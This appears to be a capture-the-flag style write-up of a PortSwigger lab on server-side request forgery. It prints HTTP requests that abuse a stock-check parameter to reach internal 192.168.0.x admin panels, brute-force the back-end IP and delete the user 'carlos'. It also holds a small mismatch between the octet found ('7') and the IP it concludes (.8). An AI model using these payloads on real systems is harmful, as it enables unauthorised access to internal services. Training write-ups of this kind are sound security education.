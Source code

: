 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0acd4dd9-2089-4dee-9e4c-60b650cceccb)


## Overview :

Another type of trust relationship that often arises with server-side request forgery is where the application server is able to interact with other back-end systems that are not directly reachable by users.

> Most of the internal back-end systems contain sensitive functionality that can be accessed without authentication by anyone who is able to interact with the systems. 

Here, an attacker can exploit the SSRF vulnerability to access the administrative interface of a backend system  by submitting the following request:

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

## Solution :


In this lab, the admin interface is at **port 8080** & the ip of the backend server is around `192.168.0.x` . We need to bruteforce the last part of the IP.

So first change the url to something like this ,

```http
POST /product/stock HTTP/1.1
Host: 0ae900140301c1b183ddba2200fe0019.web-security-academy.net
Cookie: session=k0UjtIhRNjucGoUFnqbLOKYgYoTBfI22
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ae900140301c1b183ddba2200fe0019.web-security-academy.net/product?productId=9
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0ae900140301c1b183ddba2200fe0019.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http://192.168.0.0:8080/admin
```

Send the request to intruder and add bruteforce the alst part of the IP - `http://192.168.0.$0$:8080/admin`. 

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7fc9a92a-18af-4527-8135-77e59864f76f)

We got a 200 ok response for `7`. So the ip of backend server is `192.168.0.8`.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2f489589-2ee2-4bd2-9dc4-913781f93eb3)


Fetching the backend server's admin panel.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/16591a16-3617-4cfc-bbd1-a1fbe65ce5b4)

Delete the user carlos using the uri (`/admin/delete?username=carlos`) . 

> The uri can be found in the response of the admin panel page.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bc61e96a-9a21-4218-850b-abd73f9f8a08)

Thus we solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f08c54ec-70b9-4b9d-8cf3-32828e7379df)





